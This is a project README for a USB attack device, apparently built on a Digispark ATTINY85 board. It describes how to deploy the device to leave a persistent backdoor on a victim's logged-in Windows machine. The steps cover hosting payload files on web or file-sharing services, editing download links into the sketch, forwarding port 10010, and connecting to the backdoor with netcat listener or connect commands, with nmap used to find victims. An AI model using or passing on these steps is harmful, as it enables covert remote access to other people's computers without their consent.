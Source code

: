 # RubberDucky
The RubberDucky is a SoC that creates a persistent backdoor onto the victim's machine (Windows). The attacker only needs to plug in the SoC into a logged in device and the attack will be performed within 10 seconds. The attack uses a Digispark ATTINY85 board. To setup the Rubberducky, first upload the files in the "Downloads" folder to a web server or a file hosting service such as Dropbox or Google Drive. The code can be opened using the Arduino IDE. In the code RubberDucky.ino replace "REPLACE with download link" by the download link of the respective file. 


The attack is by default on WAN. For the attack to work, the attacker needs to enable port forwarding in his router with port 10010. On the attacker machine, run the command "nc -lp 10010". 


To do an attack on LAN, uncomment the respective line in RubberDucky.ino. On the attacker machine, run the command "nc VICTIMIP 10010". The victim Ip can be found using nmap. Look for hosts with port 10010 open. 

